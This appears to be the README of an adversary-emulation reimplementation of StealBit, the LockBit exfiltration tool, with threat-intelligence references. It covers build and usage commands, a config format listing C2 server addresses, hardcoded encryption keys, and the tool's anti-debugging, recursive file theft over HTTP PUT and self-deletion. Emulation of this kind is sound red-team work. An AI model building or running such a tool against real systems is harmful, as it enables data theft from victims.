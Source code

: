 ﻿# StealBit

StealBit is an exfiltration tool used to exfiltrate both files and directories over a custom C2 channel.

## Features

StealBit utilizes native APIs and threading to optimize execution and exfiltration of files. It performs the following behaviors:

- Checks if being debugged and infinitely loops
- Recursively enumerates folders and files, avoiding [deny-list items](src/enumerate.cpp#L127-L242)
- Checks C2 server connectivity using an HTTP GET request
- Exfiltrates files using HTTP PUT requests
- Deletes itself on completion

## Build

StealBit can be built in Debug or Release mode using the included
`CMakePreset.json` configurations.

### Dependencies

- `CMake` version `3.26`
- `CMakePresets.json` version `6` support (Ninja Multi-Config)

### Quickstart

#### Command Line

Build both Debug and Release configurations of StealBit. This will also kick off the GoogleTest unit tests.

```PowerShell
cd Resources\Stealbit
cmake.exe --workflow --preset cicd-debug
cmake.exe --workflow --preset cicd-release
```

For simplicity, all of the generated artifacts can be bundled into the
top-level `install/` directory using the CMake installation facility.

```PowerShell
cmake.exe --install ./build --config release
cmake.exe --install ./build --config debug
```

You can then run StealBit from the command line:

```PowerShell
.\install\Debug\stealbit.exe

.\install\Release\stealbit.exe
```

#### Config File

Stealbit looks for a config file in the same directory as the binary. The final encrypted config file name should be `sb.enc`.

The contents should be: a malware identifier, and any number of C2 servers in the format `IPADDRESS:PORT`. Use `;` to delimit different configuration lines.
The config can handle unlimited C2 servers.

Example config file (decrypted):

```cpp
ID123;127.0.0.1:4444;10.1.10.1:56565
```

The config file `config\sb_NOT_ENCRYPTED.conf` will be automatically encrypted when Stealbit is built, and an updated `config\sb.conf` will be generated.

To manually encrypt the config, file use the accompanying application `stealbit-encrypt-config.exe [PATH TO CONFIG]`. The application will output an encrypted config file
that is encrypted with the key `0D00000D00000D00000D0000` (baby shark). The encrypted file name will be appended with `.enc`

#### Usage & Arguments

Stealbit has several command line arguments available to adjust the functionality of it.

- The first argument is standalone, and positional. This is the starting file, or directory. (defaults to `C:`; argument required to provide other arguments)
- `-f | -file (integer value)` - changes the maximum file size to exfiltrate. (Default file size max is 2MB)
- `-d | -delete` - toggles on/off self-delete. (Self-delete disabled by default)
- `-allowallext` - tells Stealbit to ignore the extension blacklist. (Default is to use the blacklist)
- `-allowalldir` - tells Stealbit to ignore the directory blacklist. (Default is to use the blacklist)

Example 1 (start in Users/Public; enabled self delete; max file size is 3MB):

```cmd
stealbit.exe C:\Users\Public -d -f 30000 
```

Example 2 (start in C:; ignore directory blacklist; use default max file size):

```cmd
stealbit.exe C: -allowalldir
```

Example 3 (start in C:; ignore directory blacklist; use default max file size):

```cmd
stealbit.exe
```

### Cleanup

To remove Stealbit you need to remove the binary and the config file. You can do this using `Remove-Item`.

```PowerShell
Remove-Item -Path C:\Users\[USERNAME]\AppData\Local\Temp\connhost.exe
Remove-Item -Path C:\Users\[USERNAME]\AppData\Local\Temp\SB.conf
```

## Install

Installing StealBit simply copies all of the artifacts from both Release
and Debug builds into the top-level `install/` directory. This is simply for
ease of use and distributability.

The final product should be a top-level directory named `install/` with the
following layout:

```PowerShell

sdbot/
├─ install/
   ├─ Debug/
   │  ├─ main.exe
   │  ├─ main.pdb
   ├─ Release/
      ├─ main.exe
```

## Test 🧪

### Unit Tests

GoogleTest unit tests will automatically run when using the `cicd-debug` and `cicd-release` presets

You can also run them ad-hoc by running:

```PowerShell
ctest.exe --preset all
```

## Troubleshoot

### Logs

For operator usability, StealBit will log XOR-encrypted and base64-encoded logs to `stb.log`
in the current working directory. The current XOR key is `000102030405060708090a0b0c0d0e0f000102030405060708090a0b0c0d0e0f`

You can decrypt these logs using the [log_decryptor](../log_decryptor/):

```bash
python3 aes_base64_log_decryptor.py --xor -i stb.log  -o decrypted.log -k `000102030405060708090a0b0c0d0e0f`
```

### Exfiltration Testing

A python script was created that can be used to test exfiltration. The script will help to determine if headers, file data, and other
request information algins with expectation.

You can access this script here: [Python PUT Server](scripts/http_server.py):

```bash
python3 http_server.py -b 127.0.0.1 8001
```

## CTI

1. [Archive.org](https://web.archive.org/web/20220924195948/https://acn-marketing-blog.accenture.com/wp-content/uploads/2022/05/CIFR-Exfil-Tool-Comparison-Final.pdf)
1. [Cyber Reason](https://www.cybereason.com/blog/research/threat-analysis-report-inside-the-lockbit-arsenal-the-stealbit-exfiltration-tool)
1. [Yoroi](https://yoroi.company/en/research/hunting-the-lockbit-gangs-exfiltration-infrastructures/)
1. [cyware](https://cyware.com/news/analyzing-lockbits-data-exfiltration-model-f5950c8a)
